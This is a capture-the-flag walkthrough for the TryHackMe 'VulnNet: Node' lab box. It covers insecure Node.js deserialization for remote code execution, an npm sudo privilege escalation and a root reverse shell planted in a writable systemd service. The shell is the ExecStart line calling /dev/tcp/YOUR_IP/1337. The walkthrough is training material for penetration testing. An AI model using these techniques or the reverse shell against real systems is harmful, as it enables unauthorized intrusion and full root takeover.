

# [VulnNet: Node](https://tryhackme.com/room/vulnnetnode)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 25 06:40:02 2021 as: nmap -vvv -p 8080 -Pn -sCV -oN nmap 10.10.119.231
Nmap scan report for box.ip (10.10.119.231)
Host is up, received user-set (0.22s latency).
Scanned at 2021-07-25 06:40:03 UTC for 48s

PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 25 06:40:51 2021 -- 1 IP address (1 host up) scanned in 49.19 seconds
```

Seems we only have a web service on port 8080 so let's check it out. Looking at the login page, we don't have a way to create a new account, nor do we have credentials we can try so let's move on for now.

Checking cookies with your browser's dev tools or a cookie editor, we can see a cookie named "session".



The cookie is URL-encoded base64, which when decoded shows a guest session

```sh
$ print 'eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==' | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

Modifying the cookie (I changed the 1st character in the base64-encoded string) and making a request gives us an error

```
SyntaxError: Unexpected token � in JSON at position 0
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/www/VulnNet-Node/server.js:16:24
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```

We can see that Node is trying to deserialize the session object. Given this, the next logical thing to try is Insecure Deserialization in NodeJS, for which there's [this](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) article. Following the article, I used `https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py` to generate an RCE payload, base64 and URL encoded it, and made it the session cookie. After sending the request, we should have a shell.

Running `sudo -l` shows that we can run `npm` as serv-manage without a password

```sh
$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Following [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo), we can get a shell as `serv-manage`

```sh
mkdir test
echo '{"scripts": {"preinstall": "/bin/sh"}}' > test/package.json
chmod +x test/package.json
sudo -u serv-manage /usr/bin/npm -C test i
```

Running `sudo -l` as serv-manage, we see we can run some `systemctl` commands as root without a password.

```sh
$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We see that the `vulnnet-auto.timer` service runs `vulnnet-job.service` ...

```sh
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

... to which we have write permission ...

```sh
serv-manage@vulnnet-node:~$ ls -l /etc/systemd/system/vulnnet-*
-rw-rw-r-- 1 root serv-manage 167 Jan 24 16:59 /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 197 Jan 24 21:40 /etc/systemd/system/vulnnet-job.service
```

... and it runs `df`

```sh
serv-manage@vulnnet-node:~$  cat /etc/systemd/system/vulnnet-job.service

[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

So I replace `df` with a reverse shell

```sh
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/YOUR_IP/1337 <&1'

[Install]
WantedBy=multi-user.target
```

... listen for the shell, restarted the service ...


```sh
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl start vulnnet-auto.timer
```

And with that we should have a root shell.
